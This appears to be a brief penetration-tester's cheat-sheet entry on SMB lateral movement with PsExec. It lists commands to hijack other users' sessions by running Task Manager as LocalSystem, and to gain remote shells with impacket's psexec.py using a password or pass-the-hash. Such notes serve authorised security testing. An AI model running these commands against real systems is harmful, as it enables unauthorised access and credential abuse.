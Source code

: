 # SMB




## PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)

Run Task manager as LocalSystem to hijack other users' sessions:

```
Cmd > .\PsExec64.exe -si C:\Windows\System32\Taskmgr.exe
```



### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
